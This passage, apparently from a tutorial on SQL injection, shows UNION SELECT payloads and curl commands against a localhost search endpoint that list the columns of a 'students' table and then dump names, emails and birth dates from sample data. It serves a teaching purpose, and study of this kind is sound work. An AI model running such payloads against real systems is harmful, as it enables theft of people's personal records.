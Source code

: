 ```sh
]
```
...and columns within tables visible to the application user:

**(`http://localhost/search?prefix=Intro' UNION SELECT 1, column_name, data_type, NULL FROM information_schema.columns WHERE table_name='students'--`):**


```sh
$ curl http://localhost/search\?prefix\=Intro%27%20UNION%20SELECT%201,%20column_name,%20data_type,%20NULL%20FROM%20information_schema.columns%20WHERE%20table_name%20\=%20%27students%27-- | jq
[
  {
    "id": 1,
    "title": "first_name",
    "description": "character varying",
    "instructor": null
  },
  {
    "id": 1,
    "title": "date_of_birth",
    "description": "date",
    "instructor": null
  },
  {
    "id": 1,
    "title": "email",
    "description": "character varying",
    "instructor": null
  },
  {
    "id": 1,
    "title": "last_name",
    "description": "character varying",
    "instructor": null
  },
  {
    "id": 1,
    "title": "id",
    "description": "integer",
    "instructor": null
  }
]
```

...and, ultimately, all student details 💀:

**(`http://localhost/search?prefix=Intro' UNION SELECT id, CONCAT(first_name, last_name), email, CAST(date_of_birth as VARCHAR) FROM students--`):**

```sh
$ curl http://localhost/search\?prefix\=Intro%27%20UNION%20SELECT%20id,%20CONCAT\(first_name,%20%27%20%27,%20last_name\),%20email,%20CAST\(date_of_birth%20AS%20VARCHAR\)%20FROM%20students-- | jq
[
  {
    "id": 2,
    "title": "Liam Baker",
    "description": "liam.baker@example.com",
    "instructor": "2002-08-22"
  },
  {
    "id": 1,
    "title": "Sophia Adams",
    "description": "sophia.adams@example.com",
    "instructor": "2001-05-15"
  },
```